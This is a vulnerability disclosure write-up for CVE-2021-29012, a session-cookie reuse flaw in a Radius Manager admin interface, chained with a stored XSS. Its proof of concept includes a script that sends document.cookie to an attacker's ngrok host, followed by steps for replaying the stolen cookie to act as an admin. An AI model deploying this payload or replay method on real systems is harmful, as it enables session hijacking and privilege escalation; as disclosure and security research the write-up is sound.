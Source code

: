 # CVE-2021-29012 (Broken Session Management)

When an admin user logs in, their session cookie is given & doesn't expire upon logging out. Instead the session cookie is temporarily disabled until the admin logs in again. The session cookie doesn't change so if an attacker manages to steal a session cookie, then they can simply reuse it when the admin is logged in again and impersonate them. And if they aren't successful at logging in the first time due to the admin being logged out, they can simply keep trying until the admin is logged in again and get a successful login.

Successful exploitation requires that you have access to the Radius Management web interface and be able to make requests so you can simply change out the session cookie header when making HTTP requests.

This vulnerability can be exploited in order to elevate privileges when chained together with CVE-2021-29011 in order to gain the session cookie of another user with elevated privileges.

## Demo Videos

We simply swap an admin's cookie for a low privileged user's cookie and are able to assume the privileges of the admin as shown here:

[Dropbox - session-impersonation-2021-03-19_23.11.19.mkv](https://www.dropbox.com/s/9ootf6udj761bbh/session-impersonation-2021-03-19_23.11.19.mkv?dl=0)

The overall process that I went through to exploit this is:

1. Create an account with no privileges
  
2. Grab the admin session cookie
  
3. Make a request that requires privileges such as creating a user using the low privilege account
  
4. Request is denied due to no privileges
  
5. Resend the request but this time modify the cookie parameter so that it's replaced with the admin session cookie
  
6. Request is successful & we can now make requests on behalf of the admin user while the admin user is logged in.


Chaining CVEs Together

This section details chaining together CVE-2021-29012 & CVE-2021-29011 in order to take an admin's session cookie & perform requests on their behalf.

There are multiple fields that are vulnerable to cross-site scripting but I could only find 1 field (the access point description field) that could fit an entire script for extracting a cookie & sending it off to an attacker for use in session hijacking.

## Tools Used:

1. Ngrok & Python's simple HTTP server to simulate an attacker's server receiving the session cookie

## Proof of Concept

Once we place our script inside the Access Point's description, anytime a user lists the available access points, we will receive their session cookie on our server & be able to impersonate them.

### Cross Site Scripting (XSS)

We first need to inject our script into an input field so that whenever an admin logs in & lists the available access points, their cookie is sent to us (the attacker in this scenario).

The script used that will be injected is:

```javascript
<script> 
var xl = new XMLHttpRequest(); 
const url = 'http://dat.ngrok.io/cookie=' + document.cookie; 
xl.open("GET", url, false); xl.send();alert(xl.responseText);
</script>
```

where dat is the subdomain generated by ngrok. And we will be injecting it into the description field when adding/editing an access point.

After listing the available access points as an admin, this is what an attacker would see:

![](/imgs/img3.png)

As you can see, we have everything we need in order to impersonate the admin user and this was achieved just by having them list the available access points. This of course requires that an attacker already have an account registered on the Radius Manager with sufficient privileges to add/edit an access point.

### Broken Session Management Exploitation

The next stage of the attack would be abusing the broken session management in order to make requests on someone else's behalf without their interaction. This simply involves intercepting the request exchanging the cookie parameter with the stolen one:

1. Make the original request for adding a user from an account with low privileges & you will get a response that looks like this:

![](/imgs/img.png)

2. Now do repeat step 1 & sniff the request out with Firefox's network monitoring tool (inspect element > network):

![](/imgs/img2.png)

3. Right-click the request & hit *Edit and Resend* & change the *Cookie: PHPSESSID* value for the stolen cookie & change the *login_admin* value for the value provided by the stolen session cookie. After doing so & resending the request, now we can make requests as the admin user:

![](/imgs/img5.png)

* **NOTE: This requires the admin to be currently logged in. If the admin is logged out then the session cookie is invalid until they login again. But the session cookie does not change once they log out. It stays the same.**
